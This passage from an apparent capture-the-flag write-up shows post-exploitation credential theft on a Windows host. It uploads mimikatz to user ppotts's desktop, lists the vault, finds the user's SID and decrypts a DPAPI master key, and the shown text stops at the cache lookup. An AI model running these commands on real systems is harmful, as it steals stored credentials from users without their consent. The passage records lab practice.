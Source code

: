 

![](https://i.imgur.com/nP545sM.png)


Then change directory to the desktop of `ppotts` and upload `mimikatz.exe`



![](https://i.imgur.com/hbcpZ8b.png)

Running the `vault::list` command on mimikatz we can see that 

![](https://i.imgur.com/lE0kB7p.png)

First of all get the SID of current user

```
wmic useraccount get name,sid
```


![](https://i.imgur.com/CXT0wBT.png)

Use the SID at the end of this path `C:\Users\<CURRENT-USER-USERNAME>\AppData\Roaming\Microsoft\protect\` to get the vault credentials

```
dir /a:h C:\Users\ppotts\AppD
ata\Roaming\Microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107
```


![](https://i.imgur.com/JIGWuv2.png)


We will start we the second vault credentials and then use it to get valid master keys

```
mimikatz # dpapi::masterkey /in:C:\Users\PPotts\AppData\Roaming\Microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc
```


![](https://i.imgur.com/NzAaAaB.png)

Scrolling down you should see a key for RPC, note this down

![](https://i.imgur.com/ZRkNvHf.png)


Check the Dpapi cache for the right `GUID` we would use to search for the protected credential file

```
mimikatz # dpapi::cache
```

![](https://i.imgur.com/SM6AZag.png)



